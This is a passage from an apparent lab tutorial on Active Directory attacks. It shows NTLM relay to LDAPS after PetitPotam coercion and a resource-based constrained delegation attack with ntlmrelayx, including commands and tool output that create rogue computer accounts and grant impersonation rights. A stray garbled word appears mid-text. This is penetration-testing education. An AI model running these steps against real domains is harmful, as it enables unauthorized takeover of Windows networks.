 When we leverage the PetitPotam tool to coerce the victim (with webservice client running) to authenticate to the attacker by using the very same command shown before, we get:
```
[*] Servers started, waiting for connections
[*] HTTPD(80): Connection from 10.0.0.2 controlled, attacking target ldaps://10.0.0.100
[*] HTTPD(80): Authenticating against ldaps://10.0.0.100 as NTLMLAB/VICTIM$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Attempting to create computer in: CN=Computers,DC=NTLMLAB,DC=local
[*] Adding new computer with username: carlotrustedpc$ and password: Ujc,vR!ODt;G96; result: OK
[*] HTTPD(80): Connection from 10.0.0.2 controlled, but there are no more targets left!
```
We just got a username and related password of a freshly created computer account that we can use for authenticated recoinassance purposes.
Please note that to coerce authentication from the victim, for convenience we used the PetitPotam tool requiring the credentials of the victim, but keep in mind that in some environments you could use the un-authenticated flavour or just use mitm6 tool as shown in section 2B.

### Attack 4 Resource Based Constrained Delegation (RBCD)
For this attack we'll move into Kerberos territory; in extreme synthesis RBCD allows services to impersonate users when accessing resources on behalf of those users. Unlike traditional delegation, RBCD is configured on the resource's account, specifying which accounts can delegate to it (more details can be found [here](https://posts.specterops.io/kerberosity-killed-the-domain-an-offensive-kerberos-overview-eb04b1402c61)).

The attribute msDS-AllowedToActOnBehalfOfOtherIdentity has to be set on the resource's account to contain a value that represents an object that is trusted for any authentication originated from it. 
Please note that any computer account is able to set this property on itself.
For example, if SRV02 has its attribute msDS-AllowedToActOnBehalfOfOtherIdentity set to SRV01, this means that SRV02 trusts authentications coming from SRV01. 

This has a tremendous security implication: if we can relay to LDAPS an account that is allowed to add additional computers to the domain, we can compromise the relayed computer by impersonating a domain admin on the relayed computer (aka the victim).
What happens under the hood is that:
- as before ntlmrelayx intercepts NTLM authentication requests and relays to LDAPS
- the tool authenticates to the LDAPS server as the relayed user/machine account (e.g., NTLMLAB/VICTIM$)
- A new computer account (e.g., newlycreatedpc$) is created in the target domain
- The msDS-AllowedToActOnBehalfOfOtherIdentity attribute of "VICTIM" kjjhkjhf is updated to allow "newlycreatedpc" to impersonate other users
- "newlycreatedpc" account can now use Kerberos delegation (S4U2Proxy) to impersonate users when accessing resources on "VICTIM".

Lets see all this in practice, this time we use the delegate-access flag for the command, that does all the hard work for us :
```
ntlmrelayx.py -t ldaps://10.0.0.100 --delegate-access
```
And we get :
```
[*] Servers started, waiting for connections
[*] HTTPD(80): Connection from 10.0.0.2 controlled, attacking target ldaps://10.0.0.100
[*] HTTPD(80): Authenticating against ldaps://10.0.0.100 as NTLMLAB/VICTIM$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Attempting to create computer in: CN=Computers,DC=NTLMLAB,DC=local
[*] Adding new computer with username: XIWARFUV$ and password: 7$gtW2be-1<bhPx result: OK
[*] Delegation rights modified succesfully!
[*] XIWARFUV$ can now impersonate users on VICTIM$ via S4U2Proxy
[*] HTTPD(80): Connection from 10.0.0.2 controlled, but there are no more targets left!
```
We will now be able to use Kerberos delegation from the newly created "XIWARFUV" computer account to request a ticket granting ticket (TGT) on behalf of any user, including the domain administrator, working only on the relayed (VICTIM$) machine.
Lets  see this in action, we will use another script of the "impacket" suite called "getST.py".
